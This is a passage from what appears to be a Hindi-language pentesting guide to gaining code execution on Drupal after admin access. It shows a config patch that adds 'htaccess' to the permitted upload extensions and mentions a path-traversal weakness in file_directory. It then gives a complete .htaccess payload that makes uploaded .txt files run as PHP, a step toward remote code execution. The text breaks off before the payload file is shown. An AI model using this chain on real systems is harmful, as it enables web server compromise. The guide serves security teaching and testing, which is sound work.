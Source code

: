 **Patch field.field.media.document.field\_media\_document.yml**

फिर, दूसरे प्रविष्टि `file_extensions` को इस प्रकार पैच करें:

File: field.field.media.document.field\_media\_document.yml
```

...

file_directory: '[date:custom:Y]-[date:custom:m]'
file_extensions: 'txt rtf doc docx ppt pptx xls xlsx pdf odf odg odp ods odt fodt fods fodp fodg key numbers pages'

...
```
<figure><img src="../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

के लिए:

फाइल: field.field.media.document.field\_media\_document.yml
```
...

file_directory: '[date:custom:Y]-[date:custom:m]'
file_extensions: 'htaccess txt rtf doc docx ppt pptx xls xlsx pdf odf odg odp ods odt fodt fods fodp fodg key numbers pages'

...

```
> मैं इसे इस ब्लॉगपोस्ट में उपयोग नहीं करता, लेकिन यह नोट किया गया है कि इसे मनमाने तरीके से `file_directory` प्रविष्टि को परिभाषित करना संभव है और यह पथ traversal हमले के प्रति संवेदनशील है (इसलिए हम Drupal फ़ाइल सिस्टम पेड़ के भीतर वापस जा सकते हैं)।

<figure><img src="../../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

### भाग 3 (विशेषता _दस्तावेज़ जोड़ें_ का लाभ उठाना) <a href="#part-3-leveraging-feature-add-document" id="part-3-leveraging-feature-add-document"></a>

अंतिम कदम सबसे सरल है, और इसे दो उप-चरणों में विभाजित किया गया है। पहला है .htaccess प्रारूप में एक फ़ाइल अपलोड करना ताकि Apache निर्देशों का लाभ उठाया जा सके और .txt फ़ाइलों को PHP इंजन द्वारा व्याख्यायित करने की अनुमति दी जा सके। दूसरा है हमारी पेलोड वाली .txt फ़ाइल अपलोड करना।

File: .htaccess
```
<Files *>
SetHandler application/x-httpd-php
</Files>

# Vroum! Vroum!
# We reactivate PHP engines for all versions in order to be targetless.
<IfModule mod_php.c>
php_flag engine on
</IfModule>
<IfModule mod_php7.c>
php_flag engine on
</IfModule>
<IfModule mod_php5.c>
php_flag engine on
</IfModule>
```
क्यों यह ट्रिक कूल है?
